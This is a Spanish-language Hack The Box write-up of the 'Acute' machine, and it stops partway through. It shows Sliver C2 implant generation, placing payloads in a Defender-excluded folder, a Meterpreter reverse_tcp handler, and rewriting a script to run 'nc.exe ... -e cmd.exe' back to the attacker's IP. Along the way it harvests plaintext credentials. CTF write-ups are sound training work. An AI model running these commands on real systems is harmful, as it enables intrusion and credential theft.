


+++
author = "Andrés Del Cerro"
title = "Hack The Box: Acute Writeup | Hard"
date = "2024-09-06"
description = ""
tags = [
    "HackTheBox",
    "Acute",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "HTTPS Enumeration",
    "SSL Certificate Examination",
    "Information Disclosure",
    "Abusing PSWA",
    "Abusing AV Exclusions",
    "C2",
    "Sliver",
    "Abusing RDP Session",
    "User Pivoting",
    "Dumping SAM",
    "NTLM Cracking",
    "Hash Cracking",
    "Cracking",
    "Abusing Bat Task"
]

+++

# Hack The Box: Acute Writeup

Welcome to my detailed writeup of the hard difficulty machine **"Acute"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.136.40 --ulimit 5000 -g
10.129.136.40 -> [443]
```

```console
$ nmap -p443 -sCV 10.129.136.40 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 20:39 CEST
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.129.136.40
Host is up (0.048s latency).

PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2024-09-06T16:39:36+00:00; -2h00m01s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2h00m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.12 seconds
```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.136.40 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 20:39 CEST
Nmap scan report for 10.129.136.40
Host is up.
All 1500 scanned ports on 10.129.136.40 are in ignored states.
Not shown: 1500 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 2.37 seconds
```

Me llama la atención que solo esté abierto externamente el puerto 443.

Del escaneo inicial vemos el dominio `acute.local` y el subdominio `atsserver.acute.local` que mas bien, será el CN del servidor. Lo añadimos al `/etc/hosts`

# HTTPS Enumeration
Vamos primero a analizar el certificado SSL.
```console
$ openssl s_client -showcerts -connect 10.129.136.40:443
```

Descubrimos el nombre de la CA (Certification Authority) `acute-ATSSERVER-CA`, lo vamos a añadir igual al `/etc/hosts`

```console
$ whatweb https://acute.local
https://acute.local [404 Not Found] Country[RESERVED][ZZ], HTTPServer[Microsoft-HTTPAPI/2.0], IP[10.129.136.40], Microsoft-HTTPAPI[2.0], Title[Not Found]
```

```console
$ whatweb https://atsserver.acute.local
https://atsserver.acute.local [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.136.40], JQuery, Microsoft-IIS[10.0], Open-Graph-Protocol[website], Script[text/html,text/javascript], Title[Acute Health | Health, Social and Child care Training], X-Powered-By[ASP.NET]
```

Con `whatweb` vemos respuestas distintas para el dominio principal y el subdominio `atsserver`, por lo cual me indica que se debe de estar utilizando virtual hosting por detrás.

## `atsserver.acute.local`

Esta es la pinta del sitio web.

En el recurso `/about.html` encontramos un listado con miembros del equipo.

> Acute Health work with healthcare providers, councils and NHS units in the UK, training over 10,000 nurses, managers and healthcare workers every year. Some of our more established team members have been included for multiple awards, these members include Aileen Wallace, Charlotte Hall, Evan Davies, Ieuan Monks, Joshua Morgan, and Lois Hopkins. Each of whom have come away with special accolades from the Healthcare community.

Siempre está bien tener un listado de usuarios, así que vamos a utilizar la típica combinación de primera letra + apellido para crear una lista de usuarios.
```console
$ cat users.txt 
a.wallace
c.hall
e.davies
i.monks
j.morgan
l.hopkins
awallace
chall
edavies
imonks
jmorgan
lhopkins
```

En la barra de navegación encontramos este hipervínculo que nos lleva a un documento word.


## Information Disclosure
No descargamos.
```console
$ wget https://atsserver.acute.local/New_Starter_CheckList_v7.docx --no-check-certificate
--2024-09-06 20:51:05--  https://atsserver.acute.local/New_Starter_CheckList_v7.docx
Resolving atsserver.acute.local (atsserver.acute.local)... 10.129.136.40
Connecting to atsserver.acute.local (atsserver.acute.local)|10.129.136.40|:443... connected.
WARNING: The certificate of ‘atsserver.acute.local’ is not trusted.
WARNING: The certificate of ‘atsserver.acute.local’ doesn't have a known issuer.
HTTP request sent, awaiting response... 200 OK
Length: 34566 (34K) [application/vnd.openxmlformats-officedocument.wordprocessingml.document]
Saving to: ‘New_Starter_CheckList_v7.docx’

New_Starter_CheckList_v7.docx        100%[====================================================================>]  33,76K  --.-KB/s    in 0s      

2024-09-06 20:51:05 (81,9 MB/s) - ‘New_Starter_CheckList_v7.docx’ saved [34566/34566]
```

Revisando los metadatos del archivo encontramos lo siguiente.
```console
$ exiftool New_Starter_CheckList_v7.docx
Creator                         : FCastle
escription                     : Created on Acute-PC01
Last Modified By                : Daniel
```

Encontramos dos nuevos usuarios, `fcastle` y `daniel`

Además encontramos el nombre de un equipo, `Acute-PC01`

Revisando el documento encontramos una credencial, por la cara.. `Password1!`


También encontramos un hipervínculo a `https://atsserver.acute.local/Acute_Staff_Access/`


Nos lleva a un inicio de sesión de PSWA `Powershell Web Access`.

> **Permite a los profesionales de TI ejecutar comandos y scripts de Windows PowerShell desde una consola de Windows PowerShell en un navegador web** , sin necesidad de instalar Windows PowerShell, software de administración remota o complementos de navegador en el dispositivo cliente.


Probando a iniciar sesión al equipo `Acute-PC01` con la contraseña encontrada y con los usuarios encontrados, podemos iniciar sesión con el usuario `edavies`


Nos vamos a descargar `netcat` en la máquina víctima para enviarnos una consola interactiva para trabajar mas cómodamente.


```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.136.40] 49862
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Users\edavies\desktop>
```

El problema es que esta sesión es cerrada cada x segundos, por lo cual me tengo que buscar otra opción.

Me voy a poner un poco "fancy" y vamos a utilizar Sliver, un C2 Framework muy utilizando en pentesting y ejercicios de red-teaming.

Si no sabéis nada sobre Sliver, os recomiendo aprender al menos lo básico ya que puede resultar muy útil en algunos momentos.

Vamos a generar un nuevo beacon para realizar la infección inicial y luego migraremos a una sesión.

Vamos a generar un HTTP Beacon así que primero nos ponemos en escucha por el puerto 80.
```console
[server] sliver > http

[*] Starting HTTP :80 listener ...
[*] Successfully started job #1

```

Ahora generamos el Beacon
```console
[server] sliver > generate beacon --http 10.10.14.125 

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[*] Symbol obfuscation is enabled
[*] Build completed in 28s
[*] Implant saved to /home/pointedsec/Desktop/acute/content/REMAINING_CLEAVAGE.exe

```
Nos servimos como antes este ejecutable por el puerto 8081.
Y al intentar ejecutarlo vemos lo siguiente.
```console
PS C:\Users\edavies\desktop> 

iwr http://10.10.14.125:8081/REMAINING_CLEAVAGE.exe -o REMAINING_CLEAVAGE.exe

PS C:\Users\edavies\desktop> 

.\REMAINING_CLEAVAGE.exe

Program 'REMAINING_CLEAVAGE.exe' failed to run: Operation did not complete successfully because the file contains a virus

 or potentially unwanted software.

    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException 

    + FullyQualifiedErrorId : NativeCommandFailed 

```

Parece que el Defender está detectando el implante de Sliver. Hay varias formas de bypassear esto pero no nos va a hacer falta porque me di cuenta de un directorio no habitual, `C:\Utils`

```console
PS C:\> 

dir

 

 

    Directory: C:\

 

 

Mode                 LastWriteTime         Length Name                                                                 

----                 -------------         ------ ----                                                                 

d-----         12/7/2019   9:14 AM                PerfLogs                                                             

d-r---         12/6/2021  11:06 AM                Program Files                                                        

d-r---         12/7/2021  12:43 PM                Program Files (x86)                                                  

d-r---        12/21/2021  10:50 PM                Users                                                                

d-----         1/31/2022  12:29 AM                Utils                                                                

d-----        12/16/2021   1:23 AM                Windows                                                              
```

El directorio contenía un fichero `desktop.ini` oculto el cual tenía la siguiente descripción.
```console
PS C:\Utils> 

dir

PS C:\Utils> 

dir -force

 

 

    Directory: C:\Utils

 

 

Mode                 LastWriteTime         Length Name                                                                 

----                 -------------         ------ ----                                                                 

-a-h--        12/21/2021   6:41 PM            148 desktop.ini                                                          

 

 

PS C:\Utils> 

type desktop.ini

[.ShellClassInfo]

InfoTip=Directory for Testing Files without Defender

PS C:\Utils> 
```

Muy CTF todo, pero vamos a descargar aquí el ejecutable.

Por alguna razón no conseguía la conexión en Sliver, así que probé a generar otro implante pero esta vez para que la conexión se realice a través de `mtls`
```console
[server] sliver > generate --mtls 10.10.14.125 --os windows --arch amd64 --format exe

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 29s
[*] Implant saved to /home/pointedsec/Desktop/acute/content/TOUGH_PERIPHERAL.exe
```

Nos ponemos en escucha.
```console
[server] sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1

[server] sliver > jobs

 ID   Name   Protocol   Port   Stage Profile 
==== ====== ========== ====== ===============
 1    mtls   tcp        8888                 

```

Y ahora sí que conseguimos una sesión.
```console
[server] sliver > sessions

 ID         Transport   Remote Address        Hostname     Username        Operating System   Health  
========== =========== ===================== ============ =============== ================== =========
 7200a7d4   mtls        10.129.136.40:49890   Acute-PC01   ACUTE\edavies   windows/amd64      [ALIVE] 

```

Sabiendo que ahora si que podemos comunicarnos, vamos a crear un beacon a través de mtls.
```console
[server] sliver > generate beacon --mtls 10.10.14.125 --os windows --arch amd64 --format exe --seconds 5 --jitter 3

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 29s
[*] Implant saved to /home/pointedsec/Desktop/acute/content/DEVELOPING_BELL.exe

```

Y vemos que lo tenemos.
```console
[server] sliver > beacons

 ID         Name              Transport   Hostname     Username        Operating System   Last Check-In   Next Check-In 
========== ================= =========== ============ =============== ================== =============== ===============
 17f341b1   DEVELOPING_BELL   mtls        Acute-PC01   ACUTE\edavies   windows/amd64      4s              2s            

```

Ahora con `use` podemos interactuar con el beacon.

```console
[server] sliver (DEVELOPING_BELL) > ifconfig

[*] Tasked beacon DEVELOPING_BELL (2fb97711)

[+] DEVELOPING_BELL completed task 2fb97711

+-----------------------------------------+
| Ethernet 2                              |
+-----------------------------------------+
|  # | IP Addresses   | MAC Address       |
+----+----------------+-------------------+
| 14 | 172.16.22.2/24 | 00:15:5d:e8:0a:01 |
+-----------------------------------------+
1 adapters not shown.
```

Vemos que no estamos en el DC, obviamente.

Ahora que ya tenemos nuestro beacon establecido, vamos a crear una sesión para ganar una consola interactiva.

Simplemente ejecutamos `interactive` y automáticamente se generará una sesión si todo sale bien.
```console
[server] sliver (DEVELOPING_BELL) > interactive

[*] Using beacon's active C2 endpoint: mtls://10.10.14.125:8888
[*] Tasked beacon DEVELOPING_BELL (6e4a8415)

[*] Session 9245de33 DEVELOPING_BELL - 10.129.136.40:49846 (Acute-PC01) - windows/amd64 - Fri, 06 Sep 2024 22:27:11 CEST

[server] sliver (DEVELOPING_BELL) > sessions

 ID         Transport   Remote Address        Hostname     Username        Operating System   Health  
========== =========== ===================== ============ =============== ================== =========
 9245de33   mtls        10.129.136.40:49846   Acute-PC01   ACUTE\edavies   windows/amd64      [ALIVE] 

```

Y así conseguimos una consola interactiva.
```console
[server] sliver (DEVELOPING_BELL) > use 9245de33

[*] Active session DEVELOPING_BELL (9245de33-b907-4773-b485-2eec5d075b77)

[server] sliver (DEVELOPING_BELL) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 3176

PS C:\> whoami
whoami
acute\edavies
```

Nos vamos a subir el `winpeas` para echar un vistazo.
```console
[server] sliver (DEVELOPING_BELL) > upload winpeas.exe C:\Utils\\winpeas.exe

[*] Wrote file to C:\Utils\winpeas.exe

```

Al lanzarlo encontramos lo siguiente, parece que el `edavies` verdadero tiene una sesión abierta a través de RDP.


Podemos intentar a hacer capturas de pantalla pero por alguna razón el archivo pesa 0 Bytes.
```console
[server] sliver (DEVELOPING_BELL) > screenshot

[*] Screenshot written to /tmp/screenshot_Acute-PC01_20240906223745_3502346932.png (0 B)

[server] sliver (DEVELOPING_BELL) > screenshot

[*] Screenshot written to /tmp/screenshot_Acute-PC01_20240906223748_264897519.png (0 B)
```
 
Vamos a utilizar momentáneamente `metasploit` para ver si podemos conseguir capturas de pantalla de esta forma.

Abrimos la consola de metasploit
```console
$ msfconsole
```

Hacemos el típico proceso para ponernos en escucha...
```console
[msf](Jobs:0 Agents:0) >> use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```

Nos ponemos en escucha por el puerto 9091
```console
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST tun0
LHOST => tun0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 9091
LPORT => 9091
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 10.10.14.125:9091 
```

Sliver tiene una funcionalidad para ejecutar un payload de metasploit en el proceso actual donde tenemos la sesión en este caso.
```console
server] sliver (DEVELOPING_BELL) > msf --payload meterpreter_reverse_tcp -L 10.10.14.125 -l 9091

[!] Empty response from msf payload injection task
```

Y ya tenemos la sesión en metasploit.
```console
[*] Sending stage (175686 bytes) to 10.129.136.40
[*] Meterpreter session 1 opened (10.10.14.125:9091 -> 10.129.136.40:49868) at 2024-09-06 22:43:11 +0200

(Meterpreter 1)(C:\) > dir
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040777/rwxrwxrwx  4096    dir   2021-12-21 20:15:27 +0100  $Recycle.Bin
040777/rwxrwxrwx  0       dir   2022-01-12 18:17:45 +0100  $WinREAgent
100666/rw-rw-rw-  1       fil   2019-12-07 10:08:58 +0100  BOOTNXT
040777/rwxrwxrwx  0       dir   2021-11-18 23:55:36 +0100  Documents and Settings
000000/---------  0       fif   1970-01-01 01:00:00 +0100  DumpStack.log.tmp
040777/rwxrwxrwx  0       dir   2019-12-07 10:14:52 +0100  PerfLogs
040555/r-xr-xr-x  4096    dir   2021-12-06 12:06:33 +0100  Program Files
040555/r-xr-xr-x  4096    dir   2021-12-07 13:43:39 +0100  Program Files (x86)
040777/rwxrwxrwx  4096    dir   2024-09-06 20:32:22 +0200  ProgramData
040777/rwxrwxrwx  0       dir   2021-11-18 23:55:55 +0100  Recovery
040777/rwxrwxrwx  4096    dir   2021-12-21 19:31:14 +0100  System Volume Information
040555/r-xr-xr-x  4096    dir   2021-12-21 23:50:06 +0100  Users
040777/rwxrwxrwx  4096    dir   2024-09-06 20:33:19 +0200  Utils
040777/rwxrwxrwx  16384   dir   2021-12-16 02:23:03 +0100  Windows
100444/r--r--r--  413738  fil   2019-12-07 10:08:58 +0100  bootmgr
000000/---------  0       fif   1970-01-01 01:00:00 +0100  pagefile.sys
000000/---------  0       fif   1970-01-01 01:00:00 +0100  swapfile.sys
```

Vamos a probar a hacer una captura de pantalla.
```console
(Meterpreter 1)(C:\) > screenshot
Screenshot saved to: /home/pointedsec/Desktop/QOZjLPyJ.jpeg
```

Y vemos que esta no tiene un peso de 0 Bytes.
```console
$ ls -la QOZjLPyJ.jpeg 
-rw-r--r-- 1 pointedsec pointedsec 65493 sep  6 22:43 QOZjLPyJ.jpeg
```

Vemos que el usuario estaba escribiendo algo en una powershell.


Como es un CTF obviamente existe una tarea por detrás que se ejecuta cada X tiempo. Esta tarea se ejecuta cada minuto, así que si esperamos un minuto y vamos sacando capturas encontramos lo siguiente.


Está creando un objeto de contraseña segura con la credencial `W3_4R3_th3_f0rce.` para el usuario `imonks` para la máquina `atsserver`

Podemos hacer lo mismo que estaba haciendo este usuario y conseguimos ejecución de comandos en la máquina `atsserver`

Pero estableciendo como `ConfigurationName` el nombre la configuración que hemos encontrado antes en el documento word, `dc_manage`



Y conseguimos ejecución de comandos.
```console
PS C:\> $passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
$passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -Force
PS C:\> $cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $passwd)
$cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $passwd)
PS C:\> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {whoami}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {whoami}
acute\imonks
PS C:\> 
```

Podemos predecir la ruta de la flag ya que es común que esté en el escritorio en las máquina en HackTheBox y podemos leer la flag de usuario correctamente.

```console
S C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type C:\users\imonks\desktop\user
.txt}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type C:\users\imonks\desktop\user.txt}
dd7becc036f7e247...
```

# User Pivoting
Me gustaría saber que comandos puedo ejecutar, ya que no tengo acceso a comandos básicos como `dir`...

Podemos ejecutar un `Get-Command` para ver que comandos podemos ejecutar.
```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {Get-Command}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {Get-Command}

CommandType     Name                                               Version    Source     PSComputer
                                                                                         Name      
-----------     ----                                               -------    ------     ----------
Cmdlet          Get-Alias                                          3.1.0.0    Microso... atsserver 
Cmdlet          Get-ChildItem                                      3.1.0.0    Microso... atsserver 
Cmdlet          Get-Command                                        3.0.0.0    Microso... atsserver 
Cmdlet          Get-Content                                        3.1.0.0    Microso... atsserver 
Cmdlet          Get-Location                                       3.1.0.0    Microso... atsserver 
Cmdlet          Set-Content                                        3.1.0.0    Microso... atsserver 
Cmdlet          Set-Location                                       3.1.0.0    Microso... atsserver 
Cmdlet          Write-Output                                       3.1.0.0    Microso... atsserver 


```

También puedes especificar otros tipos de comando:

- `Alias`: para ver alias de comandos.
- `Function`: para ver funciones definidas.
- `Script`: para ver scripts.

```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {Get-Alias}  
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {Get-Alias}

CommandType     Name                                               Version    Source     PSComputer
                                                                                         Name      
-----------     ----                                               -------    ------     ----------
Alias           cat -> Get-Content                                                       atsserver 
Alias           cd -> Set-Location                                                       atsserver 
Alias           echo -> Write-Output                                                     atsserver 
Alias           ls -> Get-ChildItem                                                      atsserver 
Alias           pwd -> Get-Location                                                      atsserver 
Alias           sc -> Set-Content                                                        atsserver 
Alias           type -> Get-Content                                                      atsserver 

```

No podemos usar `dir` pero según el alias podemos utilizar `ls` para listar el contenido.

Y efectivamente funciona.
```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {ls C:\}   
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {ls C:\}


    Directory: C:\


Mode                 LastWriteTime         Length Name                     PSComputerName          
----                 -------------         ------ ----                     --------------          
d-----        20/12/2021     23:30                inetpub                  atsserver               
d-----        05/08/2021     20:29                PerfLogs                 atsserver               
d-r---        21/12/2021     14:55                Program Files            atsserver               
d-----        15/09/2018     08:21                Program Files (x86)      atsserver               
d-r---        22/12/2021     00:11                Users                    atsserver               
d-----        29/01/2022     00:16                Windows                  atsserver 
```

Listando el directorio `Program Files` vemos un programa llamado `keepmeon`


No encuentro nada sobre este programa así que quizás es un binario personalizado.


Aunque no tenemos acceso para listar el contenido.
```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {ls "C:\Program Files\keepmeon"}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {ls "C:\Program Files\keepmeon"}
Access to the path 'C:\Program Files\keepmeon' is denied.
    + CategoryInfo          : PermissionDenied: (C:\Program Files\keepmeon:String) [Get-ChildItem] 
   , UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildIte 
   mCommand
    + PSComputerName        : atsserver
```

Enumerando los ficheros de este usuario encontramos que a parte de la flag de usuario, en el escritorio, encontramos un fichero `wm.ps1`
```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {ls "C:\Users\imonks\Desktop"}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {ls "C:\Users\imonks\Desktop"}


    Directory: C:\Users\imonks\Desktop


Mode                 LastWriteTime         Length Name                     PSComputerName          
----                 -------------         ------ ----                     --------------          
-ar---        06/09/2024     17:37             34 user.txt                 atsserver               
-a----        11/01/2022     18:04            602 wm.ps1                   atsserver               
```

Al ver el contenido nos encontramos con una sorpresa.
```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type "C:\Users\imonks\Desktop\wm.
ps1"}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type "C:\Users\imonks\Desktop\wm.ps1"}
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

Una credencial para el usuario `jmorgan` en el equipo `Acute-PC01`

Al intentar convertir la contraseña nos encontramos el siguiente error.
```console
PS C:\uTILS> $passwd = $securepasswd | ConvertTo-SecureString
$passwd = $securepasswd | ConvertTo-SecureString
ConvertTo-SecureString : Key not valid for use in specified state.
At line:1 char:27
+ $passwd = $securepasswd | ConvertTo-SecureString
+                           ~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (:) [ConvertTo-SecureString], CryptographicExceptio 
   n
    + FullyQualifiedErrorId : ImportSecureString_InvalidArgument_CryptographicError,Microsoft.Powe 
   rShell.Commands.ConvertToSecureStringCommand
```

Una búsqueda en StackOverFlow nos revela lo siguiente.

> You have to create the password string on the same computer and with the same login that you will use to run it.

y

> `ConvertFrom-SecureString` takes a `Key` ( and `SecureKey`) parameter. You can specify the key to save the encrypted standard string and then use the key again in `ConvertTo-SecureString` to get back the secure string, irrespective of the user account.

Puede significar que la "key" con la que encripta la contraseña esté almacenada en algún sitio pero en el equipo `Acute-PC01` y no en el `atsserver` que es donde estamos ejecutando los comandos.

Nos confirma esta teoría el que podemos ejecutar el script y funciona.
```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {C:\Users\imonks23:40:17 [68/4883]
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {C:\Users\imonks\Desktop\wm.ps1}               
                                                                                                                                                  
                                                                                                                                                  
PSComputerName       : atsserver                                                                                                                  
RunspaceId           : 52a86278-f5e0-478a-bad6-558bbd42b23f                                                                                       
ObjectId             : {1}\\ACUTE-PC01\root/Microsoft/Windows/Storage/Providers_v2\WSP_Volume.Objec                                               
                       tId="{8ccfebca-48c0-11ec-9ffe-806e6f6e6963}:VO:\\?\Volume{0eed1261-0000-0000                                               
                       -0000-100000000000}\"                                                                                                      
PassThroughClass     :                                                                                                                            
PassThroughIds       :                                                                                                                            
PassThroughNamespace :                                                                                                                            
PassThroughServer    :                                                                                                                            
UniqueId             : \\?\Volume{0eed1261-0000-0000-0000-100000000000}\                                                                          
AllocationUnitSize   : 4096
DedupMode            : 4
DriveLetter          : 
DriveType            : 3
FileSystem           : NTFS
FileSystemLabel      : System Reserved
FileSystemType       : 14
HealthStatus         : 0
OperationalStatus    : {2}
Path                 : \\?\Volume{0eed1261-0000-0000-0000-100000000000}\
Size                 : 52424704
SizeRemaining        : 20611072

PSComputerName       : atsserver
RunspaceId           : 52a86278-f5e0-478a-bad6-558bbd42b23f
ObjectId             : {1}\\ACUTE-PC01\root/Microsoft/Windows/Storage/Providers_v2\WSP_Volume.Objec
                       tId="{8ccfebca-48c0-11ec-9ffe-806e6f6e6963}:VO:\\?\Volume{0eed1261-0000-0000
....                       
```

Como tenemos permisos para utilizar `sc` y cambiar el contenido del script, podemos simplemente modificar el script y así conseguirá la clave de la máquina `Acute-PC01` y ejecutar el comando que queramos.

```console
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {sc C:\Users\imonks\Desktop\wm.ps1 -Value "`$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51';`$passwd = `$securepasswd | ConvertTo-SecureString;`$creds = New-Object System.Management.Automation.PSCredential ('acute\jmorgan',`$passwd);Invoke-Command -ScriptBlock {whoami} -ComputerName Acute-PC01 -Credential `$creds"}
```

Ahora podemos comprobar que el script se ha modificado.
```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type C:\Users\imonks\Desktop\wm.p
s1}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type C:\Users\imonks\Desktop\wm.ps1}
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51';$passwd = $securepasswd | ConvertTo-SecureString;$creds = New-Object System.Management.Automation.PSCredential ('acute\jmorgan',$passwd);Invoke-Command -ScriptBlock {whoami} -ComputerName Acute-PC01 -Credential $creds
```

Podemos ver que donde antes se ejecutaba un `Get-Volume` ahora se ejecutará un `whoami`
```console
PS C:\uTILS> Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {C:\Users\imonks\Desktop\wm.ps1}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {C:\Users\imonks\Desktop\wm.ps1}
acute\jmorgan
```

Y conseguimos ejecutar comandos como `jmorgan`, ahora vamos a mandarnos una reverse shell.

Lo bueno es que la sesión de Sliver la tenemos en `Acute-PC01`, así que simplemente podemos modificar el script para mandarnos una reverse shell con `netcat` como el usuario `jmorgan`

Como `netcat` no es considerado un programa peligroso por defecto en Windows, podemos dejarlo en `C:\ProgramData`

Modificamos el script.
```console
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {sc C:\Users\imonks\Desktop\wm.ps1 -Value "`$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51';`$passwd = `$securepasswd | ConvertTo-SecureString;`$creds = New-Object System.Management.Automation.PSCredential ('acute\jmorgan',`$passwd);Invoke-Command -ScriptBlock {C:\ProgramData\nc.exe 10.10.14.125 443 -e cmd.exe} -ComputerName Acute-PC01 -Credential `$creds"}
```

Ahora podemos comprobar que se ha modificado.
```console
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type C:\Users\imonks\Desktop\wm.p
s1}
Invoke-Command -computername atsserver -ConfigurationName dc_manage -credential $cred -ScriptBlock {type C:\Users\imonks\Desktop\wm.ps1}
